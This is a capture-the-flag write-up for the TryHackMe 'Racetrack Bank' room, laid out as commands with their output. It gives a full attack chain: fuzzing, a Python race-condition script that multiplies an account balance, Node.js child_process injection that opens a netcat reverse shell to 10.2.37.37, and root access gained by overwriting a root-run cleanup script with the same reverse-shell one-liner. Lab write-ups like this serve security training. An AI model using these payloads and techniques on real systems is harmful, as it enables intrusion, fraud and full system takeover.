

# TryHackMe-Racetrack Bank

**Scope:**

- Race Condition
- Node.js

**Keywords:**

- Path Traversal & Endpoint Control
- Race Condition Exploit
- Python Script
- Initial Logic Discovery
- Node.js
- Remote Code Execution
- Fuzzing
- wfuzz
- ffuf
- Reverse Shell

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `wfuzz -w /usr/share/wordlists/dirb/big.txt -u http://racetrackbank.thm/FUZZ -t 50 -c --hc 404,500,501,502,503`
- `nmap -sV -p 80 --script=http-enum -oN nmap_http_enum.txt -Pn $target_ip`
- `gobuster dir -u http://racetrackbank.thm -w /usr/share/wordlists/dirb/common.txt --random-agent -e -b 404,501,502,503 -x html,php,txt -o gobuster_result.txt`
- `curl -X POST http://racetrackbank.thm/api/create -d "username=overthenet" -d "password=overthenet" -d "password2=overthenet"`
- `curl -X POST http://racetrackbank.thm/api/create -d "username=otheruser" -d "password=otheruser" -d "password2=otheruser"`
- `seq 1 1000 | awk '{print 1}' > wordlist_number.txt`
- `ffuf -c -u http://racetrackbank.thm/api/givegold -X POST -w wordlist_number.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AlF7Vx_3YHB5MkjJScZlWB6gVszaY6r83.ry4skt5Ypt%2BSSilK1f8EOBmzdYspyz9zkfu4Kq1mHWQ" -d "user=otheruser&amount=FUZZ" -v`
- `wfuzz -c -w wordlist_number.txt -u http://racetrackbank.thm/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3ABfmoqa8Zxf9PfHBp3WFx_9j4o_OAuj9J.yjtwtJprZOn87z2Fj%2BJ5n0FzjFosDCdjom6W7EwKEpg" -b "user=overthenet&amount=FUZZ" -v -X POST`
- `python racescript.py`
- `nc -nlvp 21222`

**System Commands:**

- `process.cwd()`
- `python -c 'import pty; pty.spawn("/bin/sh")’`
- `export term=XTERM`
- `require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f')`
- `cat /etc/crontab`
- `find / -perm -4000 -user root -type f 2> /dev/null`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f`
- `mv cleanupscript.sh > cleanupscript.sh.backup`
- `rm cleanupscript.sh`
- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f' > cleanupscript.sh`

### Laboratory Environment

[Racetrack Bank](https://tryhackme.com/r/room/racetrackbank)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|storage-misc
Running (JUST GUESSING): Crestron 2-Series (86%), HP embedded (85%)
OS CPE: cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3
Aggressive OS guesses: Crestron XPanel control system (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **HTTP Port Check**
> 

`curl -iLX GET http://racetrackbank.thm`

```bash
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 25 Sep 2024 10:22:48 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1542
Connection: keep-alive
X-Powered-By: Express
Cache-Control: no-store
Set-Cookie: connect.sid=s%3AKJ86Btz3TapnyJXBw49Qti_N3VQ6KacQ.rI2eO0T3K1phV3RgbTWAmIlQ5o57HOTqz3yY4J9Qc0I; Path=/; HttpOnly

<!DOCTYPE html>
<html>
    <head>
        <title>Racetrack Bank</title>

        <link rel="stylesheet" href="/bootstrap/css/bootstrap.min.css">
    </head>

    <body>
        <nav class="navbar navbar-expand-sm bg-dark navbar-dark">
            <a class="navbar-brand" href="/">
                
            </a>
            <a class="navbar-brand">
                Racetrack bank
            </a>
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="/login.html">Login</a>
                </li>
                <li class="nav-item active">
                    <a class="nav-link" href="/create.html">Create Account</a>
                </li>
            </ul>
        </nav>

        <div class="container text-center pt-3">
            <h1 class="display-2 p-5">Racetrack Bank</h1>
            <p>
                Welcome to racetrack bank, the bank that (will soon) let you transfer funds with racing speed!
            </p>
            <p class="pb-5">
                (We are currently experiencing some slowness in our servers, but not to worry, our devs will fix it
                soon)
            </p>

            <div>
                <button class="btn btn-primary btn-block" onclick="window.location = '/login.html'">Log in</button>
                <button class="btn btn-secondary btn-block" onclick="window.location = '/create.html'">Create Account</button>
            </div>
        </div>
    </body>
</html>
```

> **Path Traversal & Endpoint Control**
> 

`wfuzz -w /usr/share/wordlists/dirb/big.txt -u http://racetrackbank.thm/FUZZ -t 50 -c --hc 404,500,501,502,503`

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000000001:   200        42 L     116 W      1542 Ch     "http://racetrackbank.thm/"                                                      
000001992:   301        10 L     16 W       179 Ch      "Images"                                                                         
000001991:   301        10 L     16 W       179 Ch      "images"                                                                         
000002020:   200        42 L     116 W      1542 Ch     "index.html"
```

`nmap -sV -p 80 --script=http-enum -oN nmap_http_enum.txt -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-enum: 
|_  /login.html: Possible admin folder
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 745.53 seconds

```

`gobuster dir -u http://racetrackbank.thm -w /usr/share/wordlists/dirb/common.txt --random-agent -e -b 404,501,502,503 -x html,php,txt -o gobuster_result.txt`

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://racetrackbank.thm/create.html          (Status: 200) [Size: 1973]
http://racetrackbank.thm/home.html            (Status: 302) [Size: 33] [--> /login.html]
http://racetrackbank.thm/Home.html            (Status: 302) [Size: 33] [--> /login.html]
http://racetrackbank.thm/images               (Status: 301) [Size: 179] [--> /images/]
http://racetrackbank.thm/Images               (Status: 301) [Size: 179] [--> /Images/]
http://racetrackbank.thm/index.html           (Status: 200) [Size: 1542]
http://racetrackbank.thm/Index.html           (Status: 200) [Size: 1542]
http://racetrackbank.thm/index.html           (Status: 200) [Size: 1542]
http://racetrackbank.thm/login.html           (Status: 200) [Size: 1815]
http://racetrackbank.thm/Login.html           (Status: 200) [Size: 1815]
http://racetrackbank.thm/purchase.html        (Status: 302) [Size: 33] [--> /login.html]
```

`curl -iLX GET http://racetrackbank.thm/login.html`

```bash
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 25 Sep 2024 10:47:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1815
Connection: keep-alive
X-Powered-By: Express
Cache-Control: no-store
Set-Cookie: connect.sid=s%3AvrOCc4J35IduZMVjsYDfCWVtfujDnvck.U4ZHlD81rRuhbY9Rh3x3vZYKtplXswkIr6HdJnqWab0; Path=/; HttpOnly

<!DOCTYPE html>
<html>
    <head>
        <title>Racetrack Bank</title>

        <link rel="stylesheet" href="/bootstrap/css/bootstrap.min.css">
    </head>

    <body>
        <nav class="navbar navbar-expand-sm bg-dark navbar-dark">
            <a class="navbar-brand" href="/">
                
            </a>
            <a class="navbar-brand">
                Racetrack bank
            </a>
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="/login.html">Login</a>
                </li>
                <li class="nav-item active">
                    <a class="nav-link" href="/create.html">Create Account</a>
                </li>
            </ul>
        </nav>
        
        <div class="container text-center pt-5">
            <h2 class="pb-3">Login</h2>

            <form action="/api/login" method="POST">
                <label for="uname">Username:</label>

                <input class="form-control mb-3" type="text" name="username" id="uname">

                <label for="passwd">Password:</label>

                <input class="form-control mb-3" type="password" name="password" id="passwd">

                <input class="btn btn-primary btn-block mb-2" type="submit" value="Login">
            </form>
            
            <button class="btn btn-secondary btn-block mb-5" onclick="window.location = '/'">Back</button>
            
            <pre id="error" class="alert alert-danger" style="display: none;"></pre>

            <script>
                const error=document.getElementById('error');

                if(error.innerText !== ''){
                    error.style.display = '';
                }
            </script>
        </div>
    </body>
</html>
```

`curl -iLX GET http://racetrackbank.thm/create.html`

```bash
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 25 Sep 2024 10:48:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1973
Connection: keep-alive
X-Powered-By: Express
Cache-Control: no-store
Set-Cookie: connect.sid=s%3ALlf6VxDIU9CT_Ak1FE-iMcaM_A14LktB.7mll8H%2FA%2BwRH1i2B3h2tBNkxYxoQQF1NxbLA54zu9KU; Path=/; HttpOnly

<!DOCTYPE html>
<html>
    <head>
        <title>Racetrack Bank</title>

        <link rel="stylesheet" href="/bootstrap/css/bootstrap.min.css">
    </head>

    <body>
        <nav class="navbar navbar-expand-sm bg-dark navbar-dark">
            <a class="navbar-brand" href="/">
                
            </a>
            <a class="navbar-brand">
                Racetrack bank
            </a>
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="/login.html">Login</a>
                </li>
                <li class="nav-item active">
                    <a class="nav-link" href="/create.html">Create Account</a>
                </li>
            </ul>
        </nav>
        
        <div class="container text-center pt-5">
            <h2 class="pb-3">Create an Account</h2>

            <form action="/api/create" method="POST">
                <label for="uname">Username:</label>

                <input class="form-control mb-3" type="text" name="username" id="uname">

                <label for="passwd">Password:</label>

                <input class="form-control mb-3" type="password" name="password" id="passwd">

                <label for="passwd2">Repeat Password:</label>

                <input class="form-control mb-5" type="password" name="password2" id="passwd2">

                <input class="btn btn-primary btn-block mb-2" type="submit" value="Create account">
            </form>

            <button class="btn btn-secondary btn-block mb-5" onclick="window.location = '/'">Back</button>

            <pre id="error" class="alert alert-danger" style="display: none;"></pre>

            <script>
                const error=document.getElementById('error');

                if(error.innerText !== ''){
                    error.style.display = '';
                }
            </script>
        </div>
    </body>
</html>
```

`curl -X POST http://racetrackbank.thm/api/create -d "username=overthenet" -d "password=overthenet" -d "password2=overthenet"`

```bash
Found. Redirecting to /login.html 
```

> **Internal Logic Discovery**
> 




`curl -X POST http://racetrackbank.thm/api/create -d "username=otheruser" -d "password=otheruser" -d "password2=otheruser"`

```bash
Found. Redirecting to /login.html
```


> **Race Condition Exploit Phase**
> 


`seq 1 1000 | awk '{print 1}' > wordlist_number.txt`

```bash
1
1
1
1
1
1
1
1
1
1
```

`ffuf -c -u http://racetrackbank.thm/api/givegold -X POST -w wordlist_number.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AlF7Vx_3YHB5MkjJScZlWB6gVszaY6r83.ry4skt5Ypt%2BSSilK1f8EOBmzdYspyz9zkfu4Kq1mHWQ" -d "user=otheruser&amount=FUZZ" -v`

```bash
[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1366ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1370ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1371ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1386ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1431ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1432ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1438ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1440ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1444ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1
    
[REDACTED] - MORE
```


`wfuzz -c -w wordlist_number.txt -u http://racetrackbank.thm/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3ABfmoqa8Zxf9PfHBp3WFx_9j4o_OAuj9J.yjtwtJprZOn87z2Fj%2BJ5n0FzjFosDCdjom6W7EwKEpg" -b "user=overthenet&amount=FUZZ" -v -X POST`

```bash
000000007:   0.670s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000003:   0.674s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000031:   0.673s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000041:   0.675s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
[REDACTED] - MORE
```

`nano racescript.py`

```bash
import grequests
import requests
from bs4 import BeautifulSoup

ip_address = "racetrackbank.thm"

user_main = "otheruser"
pass_main = "otheruser"
user_add = "overthenet"
pass_add = "overthenet"

def user_gold_and_cookie(username, password):
    payload = {
        'username': username,
        'password': password
    }
    with requests.Session() as session:
        response = session.post(f'http://{ip_address}/api/login', data=payload)
        soup = BeautifulSoup(response.text, "html.parser")
        gold_amount = 0
        for tag in soup.find_all('a'):
            if "Gold:" in tag.text:
                gold_amount = int(tag.text.split(":", 1)[1].strip())
                print(f"Current Gold Amount for User {username}: {gold_amount}")
        cookie_dict = session.cookies.get_dict()
        return cookie_dict['connect.sid'], gold_amount

def send_gold(user, cookie, amount):
    print(f"Sending {amount} gold to user {user}")
    url = f'http://{ip_address}/api/givegold'
    headers = {
        "Host": ip_address,
        "Referer": f'http://{ip_address}/giving.html',
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Cookie": f"connect.sid={cookie}",
        "Upgrade-Insecure-Requests": "1"
    }
    cookies = {
        "connect.sid": cookie
    }
    data = f"user={user}&amount={amount}"
    rs = (grequests.post(url, data=data, cookies=cookies, headers=headers) for _ in range(100))
    responses = grequests.map(rs)
    print(f"{amount} gold has been sent to user {user}!")

def main():
    gold_needed = 0
    counter = 1
    while gold_needed < 10000:
        if counter % 2 == 0:
            print(f"{user_main}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_main, pass_main)
            send_gold(user_add, cookie, gold_needed)
        else:
            print(f"{user_add}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_add, pass_add)
            send_gold(user_main, cookie, gold_needed)
        counter += 1

if __name__ == "__main__":
    main()
```

`python racescript.py`

```bash
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 1
Sending 1 gold to user otheruser
1 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 32
Sending 32 gold to user overthenet
32 gold has been sent to user overthenet!
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 224
Sending 224 gold to user otheruser
224 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 1344
Sending 1344 gold to user overthenet
1344 gold has been sent to user overthenet!
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 9408
Sending 9408 gold to user otheruser
9408 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 65856
Sending 65856 gold to user overthenet
65856 gold has been sent to user overthenet!
```


> **Remote Code Execution with Node.js & Reverse Shell Phase**
> 


**PAYLOAD:**

```bash
process.cwd()
```

`nc -nlvp 21222`

```bash
listening on [any] 21222 ...
```


**PAYLOAD:**

```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f')
```

```bash
listening on [any] 21222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.247.55] 36010
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'    
$ export term=XTERM
export term=XTERM
$ whoami
whoami
brian
$ id
id
uid=1000(brian) gid=1000(brian) groups=1000(brian)
$ pwd
pwd
/home/brian/website
$ 
```

> **Privilege Escalation with Internal Logic**
> 

```bash
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

$ cd ..
$ ls -lsa
total 76
 4 drwxr-xr-x 11 brian brian  4096 Apr 23  2020 .
 4 drwxr-xr-x  3 root  root   4096 Apr 22  2020 ..
 4 drwxrwxr-x  3 root  root   4096 Apr 23  2020 admin
 4 -rw-r--r--  1 brian brian   220 Apr  4  2018 .bash_logout
 4 -rw-r--r--  1 brian brian  3771 Apr  4  2018 .bashrc
 4 drwx------  2 brian brian  4096 Apr 22  2020 .cache
 4 drwxr-xr-x  2 brian brian  4096 Apr 23  2020 cleanup
 4 drwx------  3 brian brian  4096 Apr 22  2020 .config
 4 drwx------  3 brian brian  4096 Apr 22  2020 .gnupg
 0 -rw-------  1 brian brian     0 Apr 22  2020 .node_repl_history
 4 drwxrwxr-x  5 brian brian  4096 Apr 22  2020 .npm
 4 drwxrwxr-x  5 brian brian  4096 Sep 25 10:16 .pm2
 4 -rw-r--r--  1 brian brian   807 Apr  4  2018 .profile
 4 -rw-rw-r--  1 brian brian    39 Apr 23  2020 user.txt
 4 drwxr-xr-x  2 brian brian  4096 Apr 22  2020 .vim
16 -rw-------  1 root  root  14924 Apr 22  2020 .viminfo
 4 drwxrwxr-x  6 brian brian  4096 Apr 22  2020 website

$ find / -perm -4000 -user root -type f 2> /dev/null

[REDACTED] - MORE

/home/brian/admin/manageaccounts
/bin/fusermount
/bin/mount
/bin/umount

[REDACTED] - MORE

$ cd cleanup
$ ls
cleanupscript.sh
$ cat cleanupscript.sh
rm testfile.txt
$ ls -lsa
total 12
4 drwxr-xr-x  2 brian brian 4096 Apr 23  2020 .
4 drwxr-xr-x 11 brian brian 4096 Apr 23  2020 ..
4 -rwxr--r--  1 root  root    17 Apr 23  2020 cleanupscript.sh

$ 

```

`nc -nlvp 22333`

```bash
listening on [any] 22333 ...
```

**PAYLOAD:**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f
```

```bash
$ mv cleanupscript.sh > cleanupscript.sh.backup
$ ls
cleanupscript.sh  cleanupscript.sh.backup
$ rm cleanupscript.sh
rm: remove write-protected regular file 'cleanupscript.sh'? y
y
$ ls
cleanupscript.sh.backup
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f' > cleanupscript.sh
$ cat cleanupscript.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f
$ chmod +x cleanupscript.sh
chmod +x cleanupscript.sh
$ ./cleanupscript.sh
./cleanupscript.sh
```

```bash
listening on [any] 22333 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.247.55] 54914
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/brian/cleanup
# 
```

# Appendix

## Race Condition

<aside>
💡

A Race Condition in Node.js (or any other environment) occurs when two or more operations attempt to access shared resources or data concurrently, and the outcome of the program depends on the timing or order of execution of these operations. In the context of Node.js, which is inherently asynchronous and event-driven, race conditions can happen when asynchronous code (callbacks, promises, etc.) interacts with shared resources like files, databases, or in-memory variables in a way that leads to unpredictable or inconsistent results. Multiple asynchronous operations try to read or write shared data at the same time without proper synchronization. The completion time of asynchronous operations is not guaranteed, and the operations can finish in an unpredictable order.

</aside>

## Node.js

<aside>
💡

Node.js is a runtime environment that allows you to run JavaScript code outside of a web browser. It is built on Google Chrome's V8 JavaScript engine, making it fast and efficient, and is primarily used for building scalable, server-side and network applications. Node.js is widely adopted for its non-blocking, event-driven architecture, which makes it suitable for applications that require real-time interactions or handle many simultaneous connections.

</aside>